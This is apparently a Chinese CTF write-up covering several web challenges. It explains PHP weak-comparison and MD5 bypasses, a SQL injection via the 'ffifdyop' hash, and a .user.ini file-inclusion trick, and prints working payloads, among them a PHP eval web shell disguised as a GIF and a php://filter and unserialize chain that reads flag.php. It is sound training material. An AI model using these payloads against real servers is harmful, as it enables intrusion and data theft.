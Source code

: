 [TOC]



## 0x10.[ACTF2020 新生赛]Upload

和之前的一个一样，改个后缀名就OK。

![image-20210417185844946](0x10-0x1F.assets/image-20210417185844946.png)

## 0x11.[ACTF2020 新生赛]BackupFile

可以简单扫下，发现index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

str弱相等，被转化为整形

传参key=123得到flag

## 0x12.[HCTF 2018]admin

Unicode欺骗：

具体编码可查：https://unicode-table.com/en/search/?q=small+capital 

ᴬᴰᴹᴵᴺ

## 0x13.[极客大挑战 2019]BuyFlag

![image-20210418104024465](0x10-0x1F.assets/image-20210418104024465.png)

## 0x14.[BJDCTF2020]Easy MD5

有个hint：

```
select * from 'admin' where password=md5($pass,true)
```

看了wp之后说是有个ffifdyop，原理是这个字符串被md5哈希了之后会变成276f722736c95d99e921722cf9ed621c，而这歌字符串前几位正好是：'or'6，永为真。

![image-20210418132914216](0x10-0x1F.assets/image-20210418132914216.png)

因此拼接后为，相当于万能密码。

```
select * from 'admin' where password='' or '6xxxxx'
```

之后：

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

这个绕过就有很多方法了，比如`php?a[]=1&b[]=2`或者构造两组md5值开头为0e的值即可绕过。

在之后：

```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

这里把\==换成了\===，0e大法失效，只能数组绕过。

## 0x15.[SUCTF 2019]CheckIn

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

上传

![image-20210418161338218](0x10-0x1F.assets/image-20210418161338218.png)

本题的重点来了，文件包含漏洞，

user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。可谓很广，不像.htaccess有局限性，只能是apache.

什么是.user.ini？

这得从php.ini说起了，php.ini是php的默认配置文件，这些配置中，分为几种：

![image-20210418161711896](0x10-0x1F.assets/image-20210418161711896.png)

除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

>   `.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

要用到的配置：**`auto_append_file`**：**指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数**

比如：`auto_prepend_file=1.gif`

之后

```
GIF89a? 
auto_prepend_file=1.gif`
```

关于.user.ini的文章：

https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## 0x16.[ZJCTF 2019]NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

知识点：

```
data伪协议写入文件
php://filter用于读取源码
php://input用于执行PHP的代码
```

首先：

`if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")`

data协议通常是用来执行PHP代码，然而我们也可以将内容写入data协议中然后让file_get_contents函数取读取。构造如下：

```
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

当然也可以不需要base64，但是一般为了绕过某些过滤都会用到base64。

```
data://text/plain,welcome to the zjctf
```

接下来是file:

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

得到：

```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

参考反序列化基础的文章：https://www.freebuf.com/articles/web/167721.html

构造：

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php"}
```

最终payload：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

## 0x17.[极客大挑战 2019]HardSQL



